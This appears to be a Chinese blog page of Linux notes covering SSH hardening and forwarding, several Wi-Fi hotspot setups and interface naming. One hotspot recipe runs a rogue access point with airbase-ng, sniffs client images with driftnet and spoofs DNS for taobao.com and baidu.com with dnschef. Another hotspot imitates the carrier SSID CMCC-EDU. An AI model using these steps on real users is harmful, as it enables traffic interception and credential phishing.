<li><p>首先修改<code>vi /etc/hosts.allow</code>文件，将可访问服务器ssh服务的客户IP加入其中，格式如下<br>sshd:192.168.1.0/255.255.255.0<br>sshd: 202.114.23.45<br>sshd: 211.67.67.89<br>然后修改<code>vi /etc/hosts.deny</code>文件，加入禁用其它客户连接ssh服务<br>查看日志：<br><code>more /var/log/secure</code><br><code>who /var/log/wtmp</code><br><code>su - username</code><br>强制下线：<br><code>w</code><br><code>pkill -kill -t pts/1</code><br><code>passwd root</code> 修改root密码</p>
</li>
</ol>
<figure class="highlight dts"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br></pre></td><td class="code"><pre><span class="line">SSH允许root登录：</span><br><span class="line">vi <span class="meta-keyword">/etc/</span>ssh/sshd_config</span><br><span class="line"><span class="meta"># PermitRootLogin prohibit-password修改为PermitRootLogin yes</span></span><br></pre></td></tr></table></figure>
<blockquote>
<p>修改SSH连接超时</p>
</blockquote>
<p>1.修改server的/etc/ssh/sshd_config，添加下面两个选项： </p>
<figure class="highlight angelscript"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br></pre></td><td class="code"><pre><span class="line"># server每隔<span class="number">60</span>秒发送一次请求给client，然后client响应，从而保持连接 </span><br><span class="line">ClientAliveInterval <span class="number">60</span></span><br><span class="line"># server发出请求后，client没有响应次数达到<span class="number">3</span>，就自动断开连接，一般client会响应。</span><br><span class="line">ClientAliveCountMax <span class="number">3</span></span><br></pre></td></tr></table></figure>
<p>2.修改client的/etc/ssh/ssh_config，添加下面两个选项： </p>
<p> ServerAliveInterval 60 //client每隔60秒发送一次请求给server </p>
<p> ServerAliveCountMax 3 //client发出请求后，server没有响应次数达到3，就自动断开连接，一般server会响应。</p>
<p>3.在连接时加上下面参数： </p>
<p> 在命令参数里ssh -o ServerAliveInterval=60 这样会在连接中保持持久连接。</p>
<blockquote>
<p>SSH转发流量</p>
</blockquote>
<figure class="highlight angelscript"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br></pre></td><td class="code"><pre><span class="line"># 转发VNC <span class="number">5901</span>端口流量 断开请用kill</span><br><span class="line"># https:<span class="comment">//www.digitalocean.com/community/tutorials/how-to-install-and-configure-vnc-on-ubuntu-18-04</span></span><br><span class="line">ssh -L <span class="number">5901</span>:localhost:<span class="number">5901</span> -N -f -l username hostname_or_IP</span><br><span class="line">ssh -L <span class="number">5901</span>:<span class="number">127.0</span><span class="number">.0</span><span class="number">.1</span>:<span class="number">5901</span> -C -N -l sammy your_server_ip</span><br></pre></td></tr></table></figure>
<p>SSH 添加公钥到远程计算机</p>
<p><code>ssh-copy-id -i .ssh/id_rsa.pub User@IP</code></p>
<h4 id="无线网络"><a href="#无线网络" class="headerlink" title="无线网络"></a>无线网络</h4><h5 id="Linux开热点——Linux-AP"><a href="#Linux开热点——Linux-AP" class="headerlink" title="Linux开热点——Linux AP"></a>Linux开热点——Linux AP</h5><blockquote>
<p>推荐方法5、6。不过GNOME也是有自带热点功能的，一个网卡同时联网+热点。这里写的都是我自己试过的，但有些没有成功，有些有点小问题，仅供参考。</p>
</blockquote>
<p>方法一（不推荐）</p>
<p>配置DHCP：</p>
<p><code>vi /etc/dhcp/dhcpd.conf</code></p>
<p>写入：</p>
<figure class="highlight lsl"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br><span class="line">9</span><br><span class="line">10</span><br><span class="line">11</span><br><span class="line">12</span><br><span class="line">13</span><br><span class="line">14</span><br></pre></td><td class="code"><pre><span class="line">authoritative;</span><br><span class="line"></span><br><span class="line"><span class="section">default</span>-lease-time <span class="number">700</span>;</span><br><span class="line">max-lease-time <span class="number">8000</span>;</span><br><span class="line"></span><br><span class="line">subnet <span class="number">10.0</span><span class="number">.0</span><span class="number">.0</span> netmask <span class="number">255.255</span><span class="number">.255</span><span class="number">.0</span> &#123;</span><br><span class="line">option routers <span class="number">10.0</span><span class="number">.0</span><span class="number">.1</span>;</span><br><span class="line">option subnet-mask <span class="number">255.255</span><span class="number">.255</span><span class="number">.0</span>;</span><br><span class="line"></span><br><span class="line">option domain-name-servers <span class="number">10.0</span><span class="number">.0</span><span class="number">.1</span>;</span><br><span class="line"></span><br><span class="line">range <span class="number">10.0</span><span class="number">.0</span><span class="number">.10</span> <span class="number">10.0</span><span class="number">.0</span><span class="number">.100</span>;</span><br><span class="line"></span><br><span class="line">&#125;</span><br></pre></td></tr></table></figure>
<p>依次执行：</p>
<figure class="highlight angelscript"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br><span class="line">9</span><br><span class="line">10</span><br><span class="line">11</span><br><span class="line">12</span><br><span class="line">13</span><br><span class="line">14</span><br><span class="line">15</span><br><span class="line">16</span><br><span class="line">17</span><br><span class="line">18</span><br><span class="line">19</span><br><span class="line">20</span><br><span class="line">21</span><br><span class="line">22</span><br></pre></td><td class="code"><pre><span class="line">ifconfig wlan1 down</span><br><span class="line">iwconfig wlan1 mode monitor</span><br><span class="line">ifconfig wlan1 up</span><br><span class="line">airmon-ng start wlan1</span><br><span class="line"></span><br><span class="line">airbase-ng -e wifi -c <span class="number">11</span> wlan1mon</span><br><span class="line">ifconfig at0 up</span><br><span class="line">ifconfig at0 <span class="number">10.0</span><span class="number">.0</span><span class="number">.1</span> netmask <span class="number">255.255</span><span class="number">.255</span><span class="number">.0</span> up</span><br><span class="line">route add -net <span class="number">10.0</span><span class="number">.0</span><span class="number">.0</span> netmask <span class="number">255.255</span><span class="number">.255</span><span class="number">.0</span> gw <span class="number">10.0</span><span class="number">.0</span><span class="number">.1</span></span><br><span class="line">echo <span class="number">1</span> &gt; /proc/sys/net/ipv4/ip_forward</span><br><span class="line">dhcpd -cf /etc/dhcp/dhcpd.conf -pf /var/run/dhcpd.pid at0</span><br><span class="line">service isc-dhcp-server start</span><br><span class="line"></span><br><span class="line">iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE</span><br><span class="line">iptables -A FORWARD -i wlan1 -o eth0 -j ACCEPT</span><br><span class="line">iptables -A FORWARD -p tcp --syn -s <span class="number">10.0</span><span class="number">.0</span><span class="number">.0</span>/<span class="number">24</span> -j TCPMSS --<span class="keyword">set</span>-mss <span class="number">1356</span></span><br><span class="line"></span><br><span class="line">driftnet -i at0</span><br><span class="line">dnschef -i <span class="number">10.0</span><span class="number">.0</span><span class="number">.1</span> --nameserver <span class="number">210.73</span><span class="number">.64</span><span class="number">.1</span>#<span class="number">53</span>               <span class="comment">//代理</span></span><br><span class="line">dnschef --fakedomains=taobao.com,baidu.com --fakeip=<span class="number">10.0</span><span class="number">.0</span><span class="number">.1</span> -i <span class="number">10.0</span><span class="number">.0</span><span class="number">.1</span> --nameserver <span class="number">210.73</span><span class="number">.64</span><span class="number">.1</span>#<span class="number">53</span>                      <span class="comment">//劫持</span></span><br><span class="line"></span><br><span class="line">iw wlan0 <span class="keyword">interface</span> <span class="symbol">add</span> <span class="symbol">wlan0add</span> <span class="symbol">type</span> <span class="symbol">monitor</span>                //或者<span class="symbol">managed</span></span><br></pre></td></tr></table></figure>
<p>方法二（不推荐）</p>
<p>桥接——bridge-utils</p>
<p>依次执行</p>
<figure class="highlight routeros"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br><span class="line">9</span><br><span class="line">10</span><br><span class="line">11</span><br><span class="line">12</span><br></pre></td><td class="code"><pre><span class="line">airbase-ng -e swu-wifi -c 12 wlan1mon</span><br><span class="line">brctl addbr br</span><br><span class="line">brctl addif br at0</span><br><span class="line">brctl addif br eth0</span><br><span class="line">iw wlan0 <span class="builtin-name">set</span> 4addr on</span><br><span class="line">ifconfig at0 down</span><br><span class="line">ifconfig at0 0.0.0.0 up</span><br><span class="line">ifconfig eth0 down</span><br><span class="line">ifconfig eth0 0.0.0.0 up</span><br><span class="line">echo 1 &gt; /proc/sys/net/ipv4/ip_forward</span><br><span class="line">ifconfig br 10.128.129.1 netmask 255.255.255.0 broadcast 10.128.129.255 up</span><br><span class="line">route <span class="builtin-name">add</span><span class="built_in"> default </span>gw 10.128.129.1</span><br></pre></td></tr></table></figure>
<p>方法三（不推荐）</p>
<p>使用hostAPd</p>
<figure class="highlight dts"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br><span class="line">9</span><br><span class="line">10</span><br><span class="line">11</span><br><span class="line">12</span><br><span class="line">13</span><br><span class="line">14</span><br><span class="line">15</span><br><span class="line">16</span><br><span class="line">17</span><br><span class="line">18</span><br><span class="line">19</span><br><span class="line">20</span><br><span class="line">21</span><br><span class="line">22</span><br><span class="line">23</span><br><span class="line">24</span><br><span class="line">25</span><br><span class="line">26</span><br><span class="line">27</span><br><span class="line">28</span><br><span class="line">29</span><br></pre></td><td class="code"><pre><span class="line">apt-get install hostapd</span><br><span class="line">安装DNS和DHCP服务器：</span><br><span class="line">apt-get install dnsmasq</span><br><span class="line">配置hostapd.conf:</span><br><span class="line">解压<span class="meta-keyword">/usr/</span>share<span class="meta-keyword">/doc/</span>hostapd<span class="meta-keyword">/examples/</span>hostapd.conf.gz</span><br><span class="line">解压hostapd后：</span><br><span class="line">cp <span class="meta-keyword">/home/</span>jessie/hostapd.conf -t <span class="meta-keyword">/etc/</span>hostapd/</span><br><span class="line">vi <span class="meta-keyword">/etc/</span>default/hostapd</span><br><span class="line">vi <span class="meta-keyword">/etc/</span>hostapd/hostapd.conf</span><br><span class="line">interface=wlan1             <span class="comment">//设置要做为AP的网卡</span></span><br><span class="line">driver=nl80211              <span class="comment">//设置无线网卡驱动，一般都是这样（也可以具体的，如rtl871xdrv）</span></span><br><span class="line">ssid=CMCC-EDU               <span class="comment">//设置热点的名称，CMCC-EDU你总该连吧～</span></span><br><span class="line">hw_mode=g                   <span class="comment">//（默认）无线模式，这里是默认的</span></span><br><span class="line">channel=<span class="number">6</span>                   <span class="comment">//无线频道（1、6、11三个频道互补干扰)</span></span><br><span class="line">macaddr_acl=<span class="number">0</span>               <span class="comment">//(默认)MAC地址过滤规则，设置为0即有规则的话就启用</span></span><br><span class="line">auth_algs=<span class="number">1</span>                 <span class="comment">//设置为开放无线模式</span></span><br><span class="line"></span><br><span class="line">配置dnsmasq.conf文件：</span><br><span class="line">DAEMON_CONF=<span class="meta-keyword">/etc/</span>hostapd/hostapd.conf</span><br><span class="line"></span><br><span class="line">vim <span class="meta-keyword">/etc/</span>dnsmasq.conf</span><br><span class="line">修改</span><br><span class="line">interface=wlan2</span><br><span class="line">listen-address=<span class="number">10.128</span><span class="number">.129</span><span class="number">.1</span><span class="comment">//（需要监听的IP）</span></span><br><span class="line">dhcp-range=<span class="number">10.128</span><span class="number">.129</span><span class="number">.10</span>,<span class="number">10.128</span><span class="number">.129</span><span class="number">.234</span>,<span class="number">12</span>h<span class="comment">//DHCP</span></span><br><span class="line">dhcp-options=<span class="number">3</span>,<span class="number">10.128</span><span class="number">.129</span><span class="number">.1</span><span class="comment">//网关</span></span><br><span class="line">dhcp-options=<span class="number">6</span>,<span class="number">114.114</span><span class="number">.114</span><span class="number">.114</span><span class="comment">//DNS</span></span><br><span class="line">设置内核支持IP转发，编辑<span class="meta-keyword">/etc/</span>sysctl.conf文件，去掉“<span class="meta"># net.ipv4.ip_forward=1”前面的#去掉,或者</span></span><br><span class="line">echo <span class="number">1</span> &gt; <span class="meta-keyword">/proc/</span>sys<span class="meta-keyword">/net/</span>ipv4/ip_forward</span><br></pre></td></tr></table></figure>
<p>设置启动脚本：</p>
<figure class="highlight bash"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br><span class="line">9</span><br><span class="line">10</span><br><span class="line">11</span><br><span class="line">12</span><br><span class="line">13</span><br><span class="line">14</span><br><span class="line">15</span><br><span class="line">16</span><br><span class="line">17</span><br><span class="line">18</span><br><span class="line">19</span><br><span class="line">20</span><br><span class="line">21</span><br><span class="line">22</span><br><span class="line">23</span><br><span class="line">24</span><br><span class="line">25</span><br><span class="line">26</span><br><span class="line">27</span><br><span class="line">28</span><br><span class="line">29</span><br><span class="line">30</span><br><span class="line">31</span><br><span class="line">32</span><br><span class="line">33</span><br><span class="line">34</span><br><span class="line">35</span><br><span class="line">36</span><br><span class="line">37</span><br><span class="line">38</span><br><span class="line">39</span><br><span class="line">40</span><br><span class="line">41</span><br><span class="line">42</span><br><span class="line">43</span><br><span class="line">44</span><br><span class="line">45</span><br></pre></td><td class="code"><pre><span class="line"><span class="meta">#! /bin/bash</span></span><br><span class="line"></span><br><span class="line"><span class="keyword">case</span> <span class="variable">$1</span> <span class="keyword">in</span></span><br><span class="line">    <span class="string">"start"</span>)</span><br><span class="line">       sleep 1</span><br><span class="line">       ifconfig wlan2 192.168.10.1 netmask 255.255.255.0         //无线热点的接口wlan2</span><br><span class="line">       sleep 1</span><br><span class="line">       <span class="built_in">echo</span> <span class="string">"1"</span> &gt;/proc/sys/net/ipv4/ip_forward</span><br><span class="line">       sleep 1</span><br><span class="line">       iptables -t nat -A POSTROUTING -o wlan0 -j MASQUERADE     //这里我上网的网卡是wlan0,如果是网线的话就是eth0</span><br><span class="line">       sleep 1</span><br><span class="line">       /etc/init.d/hostapd start</span><br><span class="line">       sleep 1</span><br><span class="line">       /etc/init.d/dnsmasq start</span><br><span class="line">    ;;</span><br><span class="line">    <span class="string">"stop"</span>)</span><br><span class="line">       /etc/init.d/dnsmasq stop</span><br><span class="line">       /etc/init.d/hostapd stop</span><br><span class="line">       sleep 1</span><br><span class="line">       iptables -t nat -D POSTROUTING -o wlan0 -j MASQUERADE     //同上</span><br><span class="line">       sleep 1</span><br><span class="line">       <span class="built_in">echo</span> <span class="string">"0"</span> &gt;/proc/sys/net/ipv4/ip_forward</span><br><span class="line">       sleep 1</span><br><span class="line">    ;;</span><br><span class="line">    *)</span><br><span class="line">       <span class="built_in">echo</span> <span class="string">"Usage <span class="variable">$0</span> &#123;start|stop&#125;"</span></span><br><span class="line">    ;;</span><br><span class="line">    <span class="keyword">esac</span></span><br><span class="line"></span><br><span class="line">interface=wlan2</span><br><span class="line">driver=nl80211</span><br><span class="line">ssid=mywifi</span><br><span class="line">hw_mode=g</span><br><span class="line">channel=6</span><br><span class="line">macaddr_acl=0</span><br><span class="line">auth_algs=1</span><br><span class="line">ignore_broadcast_ssid=0</span><br><span class="line">ieee80211n=1</span><br><span class="line">wpa=2                                //WPA2加密模式</span><br><span class="line">wpa_passphrase=mimanicai             //密码（即wifi密码）</span><br><span class="line">wpa_key_mgmt=WPA-PSK</span><br><span class="line">wpa-pairwise=TKIP</span><br><span class="line">rns-pairwise=CCMP</span><br><span class="line"></span><br><span class="line"><span class="comment"># 其他的默认，kali默认用vim时是没有高亮显示的，建议设置成高亮的以便于查找，怎么设，自己google吧</span></span><br></pre></td></tr></table></figure>
<p>方法四（不推荐，原项目停止维护）——Create AP CLI</p>
<figure class="highlight properties"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br></pre></td><td class="code"><pre><span class="line"><span class="attr">git</span> <span class="string">clone https://github.com/oblique/create_ap</span></span><br><span class="line"><span class="attr">make</span> <span class="string">install</span></span><br><span class="line"></span><br><span class="line"><span class="attr">create_ap</span> <span class="string">wlan0 eth0 MyAccessPoint</span></span><br><span class="line"><span class="attr">create_ap</span> <span class="string">wlan0 eth0 MyAccessPoint MyPassPhrase</span></span><br><span class="line"><span class="attr">create_ap</span> <span class="string">-m bridge wlan0 eth0 MyAccessPoint MyPassPhrase</span></span><br><span class="line"><span class="attr">create_ap</span> <span class="string">-m bridge wlan0 br0 MyAccessPoint MyPassPhrase</span></span><br><span class="line"><span class="attr">create_ap</span> <span class="string">wlan0 wlan0 MyAccessPoint MyPassPhrase</span></span><br></pre></td></tr></table></figure>
<blockquote>
<p><code>create_ap wlan1 wlan0 wifi-ssid pskpwd -g=10.129.34.13</code> 命令在iptables上创建的NAT-AP分析：</p>
</blockquote>
<p></p>
<figure class="highlight angelscript"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br><span class="line">9</span><br><span class="line">10</span><br><span class="line">11</span><br><span class="line">12</span><br><span class="line">13</span><br><span class="line">14</span><br><span class="line">15</span><br><span class="line">16</span><br><span class="line">17</span><br><span class="line">18</span><br><span class="line">19</span><br><span class="line">20</span><br><span class="line">21</span><br><span class="line">22</span><br><span class="line">23</span><br><span class="line">24</span><br><span class="line">25</span><br><span class="line">26</span><br><span class="line">27</span><br><span class="line">28</span><br><span class="line">29</span><br><span class="line">30</span><br><span class="line">31</span><br><span class="line">32</span><br><span class="line">33</span><br><span class="line">34</span><br><span class="line">35</span><br><span class="line">36</span><br><span class="line">37</span><br><span class="line">38</span><br><span class="line">39</span><br><span class="line">40</span><br><span class="line">41</span><br><span class="line">42</span><br><span class="line">43</span><br><span class="line">44</span><br></pre></td><td class="code"><pre><span class="line"># FILTER TABLE：</span><br><span class="line"><span class="symbol">root@</span>ASUS-Tek004:/home/jessie# iptables -t filter -nvL</span><br><span class="line"></span><br><span class="line">				Chain INPUT (policy ACCEPT <span class="number">0</span> packets, <span class="number">0</span> bytes)</span><br><span class="line">  pkts   bytes   target     prot   opt   <span class="keyword">in</span>     <span class="keyword">out</span>     source               destination         </span><br><span class="line">   <span class="number">31</span>   <span class="number">10486</span>   ACCEPT      udp    --    *      *       <span class="number">0.0</span><span class="number">.0</span><span class="number">.0</span>/<span class="number">0</span>            <span class="number">0.0</span><span class="number">.0</span><span class="number">.0</span>/<span class="number">0</span>            udp dpt:<span class="number">67</span>         ==&gt; 允许任何UDP目的地为p=<span class="number">67</span>的流量进来</span><br><span class="line">    <span class="number">0</span>     <span class="number">0</span>     ACCEPT      udp    --    *      *       <span class="number">0.0</span><span class="number">.0</span><span class="number">.0</span>/<span class="number">0</span>            <span class="number">0.0</span><span class="number">.0</span><span class="number">.0</span>/<span class="number">0</span>            udp dpt:<span class="number">5353</span>       ==&gt; 允许任何UDP目的地为p=<span class="number">5353</span>的流量进来</span><br><span class="line">    <span class="number">0</span>     <span class="number">0</span>     ACCEPT      tcp    --    *      *       <span class="number">0.0</span><span class="number">.0</span><span class="number">.0</span>/<span class="number">0</span>            <span class="number">0.0</span><span class="number">.0</span><span class="number">.0</span>/<span class="number">0</span>            tcp dpt:<span class="number">5353</span>       ==&gt; 允许任何TCP目的地为p=<span class="number">5353</span>的流量进来</span><br><span class="line"></span><br><span class="line">    <span class="number">0</span>     <span class="number">0</span>      DROP       all    --    *      *       <span class="number">120.92</span><span class="number">.84</span><span class="number">.16</span>         <span class="number">0.0</span><span class="number">.0</span><span class="number">.0</span>/<span class="number">0</span>    ——+       </span><br><span class="line">    <span class="number">0</span>     <span class="number">0</span>      DROP       all    --    *      *       <span class="number">182.131</span><span class="number">.24</span><span class="number">.241</span>       <span class="number">0.0</span><span class="number">.0</span><span class="number">.0</span>/<span class="number">0</span>    ——+——&gt;WPS office的规则      </span><br><span class="line"></span><br><span class="line">				Chain FORWARD (policy ACCEPT <span class="number">0</span> packets, <span class="number">0</span> bytes)</span><br><span class="line">  pkts   bytes   target     prot   opt   <span class="keyword">in</span>     <span class="keyword">out</span>      source               destination         </span><br><span class="line">    <span class="number">0</span>     <span class="number">0</span>     ACCEPT      all    --   wlan0    *       <span class="number">0.0</span><span class="number">.0</span><span class="number">.0</span>/<span class="number">0</span>            <span class="number">10.129</span><span class="number">.34</span><span class="number">.0</span>/<span class="number">24</span>     ==&gt; 允许任何从wlan0进来的目的为<span class="number">10.129</span><span class="number">.24</span><span class="number">.0</span>/<span class="number">24</span>子网的流量经过</span><br><span class="line">    <span class="number">0</span>     <span class="number">0</span>     ACCEPT      all    --   wlan1    *       <span class="number">10.129</span><span class="number">.34</span><span class="number">.0</span>/<span class="number">24</span>       <span class="number">0.0</span><span class="number">.0</span><span class="number">.0</span>/<span class="number">0</span>          ==&gt; 允许任何从wlan1进来的来源为<span class="number">10.129</span><span class="number">.24</span><span class="number">.0</span>/<span class="number">24</span>子网的流量经过</span><br><span class="line"></span><br><span class="line">				Chain OUTPUT (policy ACCEPT <span class="number">0</span> packets, <span class="number">0</span> bytes)</span><br><span class="line">  pkts   bytes   target     prot   opt   <span class="keyword">in</span>     <span class="keyword">out</span>     source               destination         </span><br><span class="line">    <span class="number">0</span>     <span class="number">0</span>      DROP        all    --   *      *       <span class="number">0.0</span><span class="number">.0</span><span class="number">.0</span>/<span class="number">0</span>            <span class="number">182.131</span><span class="number">.24</span><span class="number">.241</span>  ——+                     </span><br><span class="line">   <span class="number">21</span>    <span class="number">1260</span>    DROP        all    --   *      *       <span class="number">0.0</span><span class="number">.0</span><span class="number">.0</span>/<span class="number">0</span>            <span class="number">120.92</span><span class="number">.84</span><span class="number">.16</span>    ——+——&gt;WPS office的规则   </span><br><span class="line"></span><br><span class="line">=========================================================================================</span><br><span class="line"></span><br><span class="line"># NAT TABLE;</span><br><span class="line"><span class="symbol">root@</span>ASUS-Tek004:/home/jessie# iptables -t nat -nvL</span><br><span class="line"></span><br><span class="line">				Chain PREROUTING (policy ACCEPT <span class="number">0</span> packets, <span class="number">0</span> bytes)</span><br><span class="line">   pkts bytes   target     prot   opt   <span class="keyword">in</span>     <span class="keyword">out</span>        source               destination         </span><br><span class="line">    <span class="number">0</span>     <span class="number">0</span>    REDIRECT    udp    --    *      *       <span class="number">10.129</span><span class="number">.34</span><span class="number">.0</span>/<span class="number">24</span>          <span class="number">10.129</span><span class="number">.34</span><span class="number">.13</span>    udp dpt:<span class="number">53</span> redir ports <span class="number">5353</span>  </span><br><span class="line">    <span class="number">0</span>     <span class="number">0</span>    REDIRECT    tcp    --    *      *       <span class="number">10.129</span><span class="number">.34</span><span class="number">.0</span>/<span class="number">24</span>          <span class="number">10.129</span><span class="number">.34</span><span class="number">.13</span>    tcp dpt:<span class="number">53</span> redir ports <span class="number">5353</span> </span><br><span class="line"></span><br><span class="line">==&gt; 将来源于<span class="number">10.129</span><span class="number">.34</span><span class="number">.0</span>/<span class="number">24</span>的目的地为<span class="number">10.129</span><span class="number">.34</span><span class="number">.13</span>:<span class="number">53</span>的TCP、UDP流量映射至<span class="number">5353</span>端口</span><br><span class="line"></span><br><span class="line">				Chain INPUT (policy ACCEPT <span class="number">0</span> packets, <span class="number">0</span> bytes)</span><br><span class="line">   pkts bytes target     prot opt <span class="keyword">in</span>     <span class="keyword">out</span>     source               destination         </span><br><span class="line"></span><br><span class="line">				Chain POSTROUTING (policy ACCEPT <span class="number">0</span> packets, <span class="number">0</span> bytes)</span><br><span class="line">   pkts bytes    target      prot  opt    <span class="keyword">in</span>        <span class="keyword">out</span>         source               destination         </span><br><span class="line">    <span class="number">0</span>     <span class="number">0</span>    MASQUERADE     all   --    *      !wlan1      <span class="number">10.129</span><span class="number">.34</span><span class="number">.0</span>/<span class="number">24</span>          <span class="number">0.0</span><span class="number">.0</span><span class="number">.0</span>/<span class="number">0</span>   </span><br><span class="line"> ==&gt; 将来自<span class="number">10.129</span><span class="number">.34</span><span class="number">.0</span>/<span class="number">24</span>subnet的所有流量通过除了wlan1网卡外的网卡发出去 </span><br><span class="line"></span><br><span class="line">				Chain OUTPUT (policy ACCEPT <span class="number">0</span> packets, <span class="number">0</span> bytes)</span><br><span class="line">   pkts bytes target     prot opt <span class="keyword">in</span>     <span class="keyword">out</span>     source               destination</span><br></pre></td></tr></table></figure>
<p>方法五(稍微推荐)——Linux Wifi Hotspot GUI</p>
<figure class="highlight gauss"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br><span class="line">9</span><br><span class="line">10</span><br><span class="line">11</span><br></pre></td><td class="code"><pre><span class="line">git clone https:<span class="comment">//github.com/lakinduakash/linux-wifi-hotspot.git</span></span><br><span class="line">sudo apt install -y libgtk<span class="number">-3</span>-dev build-essential gcc g++ pkg-config <span class="built_in">make</span> hostapd</span><br><span class="line">cd linux-wifi-hotspot</span><br><span class="line"><span class="meta"># build binaries</span></span><br><span class="line"><span class="built_in">make</span></span><br><span class="line"><span class="meta"># install</span></span><br><span class="line">sudo <span class="built_in">make</span> install</span><br><span class="line"><span class="meta"># 卸载</span></span><br><span class="line">sudo <span class="built_in">make</span> uninstall</span><br><span class="line"><span class="meta"># Terminal运行</span></span><br><span class="line">wihotspot</span><br></pre></td></tr></table></figure>
<p>方法六（推荐）——<a href="https://github.com/garywill/linux-router#linux-router" target="_blank" rel="noopener">Linux-router</a></p>
<figure class="highlight jboss-cli"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br></pre></td><td class="code"><pre><span class="line">https:<span class="string">//github.com/garywill/linux-router.git</span></span><br><span class="line"><span class="keyword">cd</span> linux-router</span><br><span class="line">sudo lnxrouter <span class="params">--ap</span> wlan0 MyAccessPoint -p MyPassPhrase</span><br></pre></td></tr></table></figure>
<h5 id="命令行扫描无线网络"><a href="#命令行扫描无线网络" class="headerlink" title="命令行扫描无线网络"></a>命令行扫描无线网络</h5><p><code>iwlist wlan0 scan</code></p>
<h5 id="关于网卡默认命名规则相关"><a href="#关于网卡默认命名规则相关" class="headerlink" title="关于网卡默认命名规则相关"></a>关于网卡默认命名规则相关</h5><blockquote>
<p>为什么：<a href="https://www.freedesktop.org/wiki/Software/systemd/PredictableNetworkInterfaceNames/" target="_blank" rel="noopener">https://www.freedesktop.org/wiki/Software/systemd/PredictableNetworkInterfaceNames/</a></p>
<p>命名规则：<a href="https://www.freedesktop.org/software/systemd/man/systemd.net-naming-scheme.html" target="_blank" rel="noopener">https://www.freedesktop.org/software/systemd/man/systemd.net-naming-scheme.html</a></p>
</blockquote>
<p>内核应用的网络接口的经典命名方案是简单地为驱动程序探测到的所有接口分配以“eth0”、“eth1”……开头的名称。 由于现代技术通常无法预测驱动程序探测，这意味着一旦多个网络接口可用，名称“eth0”、“eth1”等的分配通常不再固定，很可能会发生“ eth0”在一个引导中最终成为“eth1”。 这可能具有严重的安全隐患，例如在为某些命名方案编码的防火墙规则中，因此对不可预测的更改名称非常敏感。</p>
<p>为了解决这个问题，已经提出并实施了多种解决方案。 长期以来，udev 支持根据特定接口的 MAC 地址将永久“ethX”名称分配给它们。 事实证明这有很多问题，其中包括：这需要一个通常不可用的可写根目录； 系统的无状态性丢失，因为在系统上启动操作系统映像会导致映像配置发生变化； 在许多系统上，MAC 地址实际上并不是固定的，例如在许多嵌入式硬件上，尤其是在各种虚拟化解决方案上。 然而，最重要的是，尝试分配接口名称的用户空间组件与内核从同一“ethX”命名空间分配新名称竞争，这是一种具有各种奇怪效果的竞争条件，其中名称分配有时会失败。 因此，不久前已从 systemd/udev 中删除了对此的支持。</p>
<p>另一个已经实施的解决方案是“biosdevname”，它试图在某些固件接口中找到固定插槽拓扑信息，并使用它们为接口分配固定名称，这些接口包含它们在主板上的物理位置。 在某种程度上，这种命名方案类似于已经在 udev 中通过 /dev/*/by-path/ 符号链接为各种设备节点本地完成的命名方案。 在许多情况下，biosdevname 与 udev 通常用于这些符号链接的低级内核设备标识方案不同，而是发明了自己的枚举方案。</p>
<p>最后，许多发行版支持将接口重命名为用户选择的名称（例如：“internet0”、“dmz0”等），将其 MAC 地址或物理位置作为其网络脚本的一部分。 这是一个很好的选择，但确实存在一个问题，即它暗示用户愿意并且能够选择和分配这些名称。</p>
<p>我们认为推广由“biosdevname”开创的方案是一个很好的默认选择。 基于固件/拓扑/位置信息分配固定名称的一大优势是名称是全自动的、完全可预测的，即使添加或删除硬件它们也保持固定（即不会发生重新枚举）并且可以更换损坏的硬件无缝地。 也就是说，不可否认，它们有时比每个人都习惯的“eth0”或“wlan0”更难阅读。 示例：“enp5s0” </p>
<p><strong>再来，这有什么好处？</strong> </p>
<p>有了这个新方案，您现在可以获得： </p>
<ul>
<li>重新启动后稳定的接口名称 </li>
<li>稳定的接口名称，即使在添加或删除硬件时，即不会发生重新枚举（在固件允许的级别） </li>
<li>更新/更改内核或驱动程序时的稳定接口名称 </li>
<li>稳定的接口名称，即使您必须用新的以太网卡替换损坏的以太网卡 </li>
<li>名称是自动确定的，无需用户配置，它们可以正常工作 </li>
<li>接口名称是完全可以预测的，即只需查看 lspci，您就可以弄清楚接口将被调用什么 </li>
<li>完全无状态运行，改变硬件配置不会导致/etc发生变化 </li>
<li>与只读根的兼容性 </li>
<li>网络接口命名现在更紧密地遵循用于通过符号链接为 /dev 中的块设备节点和其他设备节点别名的方案 </li>
<li>适用于 x86 和非 x86 机器 </li>
<li>在所有采用 systemd/udev 的发行版上都一样 </li>
<li>选择退出该计划很容易（见下文） </li>
</ul>
